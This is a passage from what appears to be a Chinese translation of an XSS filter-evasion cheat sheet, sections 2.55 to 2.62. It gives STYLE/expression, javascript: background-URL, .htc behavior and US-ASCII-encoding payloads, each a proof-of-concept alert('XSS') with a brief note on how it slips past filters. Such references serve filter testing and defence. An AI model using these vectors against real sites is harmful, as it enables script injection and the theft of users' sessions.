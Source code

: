> <IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">

### 2.55.    含表达式的IMG STYLE

这是一个将上面XSS攻击向量混合的方法，但确实展示了STYLE标签可以用相当复杂的方式分隔，和上面一样，也会让IE进入死循环:

> exp/*<A STYLE='no\xss:noxss("*//*");
>
> xss:ex/*XSS*//*/*/pression(alert("XSS"))'>

### 2.56.    STYLE标签（仅旧版本Netscape可用）

> <STYLE TYPE="text/javascript">alert('XSS');</STYLE>

### 

### 

### 2.57.    使用背景图像的STYLE标签

> <STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A>

### 

### 

### 2.58.    使用背景的STYLE标签

> <STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>

### 

### 

### 2.59.    含STYLE属性的HTML任意标签

IE6.0和IE渲染引擎模式下的Netscape 8.1+并不关心你建立的HTML标签是否存在，只要是由尖括号和字母开始的即可:

> <XSS STYLE="behavior: url(xss.htc);">

### 2.60.    本地htc文件

这和上面两个跨站脚本攻击向量有些不同，因为它使用了一个必须和XSS攻击向量在相同服务器上的.htc文件。这个示例文件通过下载JavaScript并将其作为style属性的一部分运行来进行攻击：

> <XSS STYLE="behavior: url(xss.htc);">

### 2.61.    US-ASCII编码

US-ASCII编码（由Kurt Huwig发现）。它使用了畸形的7位ASCII编码来代替8位。这个XSS攻击向量可以绕过大多数内容过滤器，但是只在主机使用US-ASCII编码传输数据时有效，或者可以自己设置编码格式。相对绕过服务器端过滤，这在绕过WAF跨站脚本过滤时候更有效。Apache Tomcat是目前唯一已知使用US-ASCII编码传输的：

> ¼script¾alert(¢XSS¢)¼/script¾

### 2.62.    META

关于meta刷新比较奇怪的是它并不会在头部中发送一个referrer-所以它通常用于不需要referrer的时候:

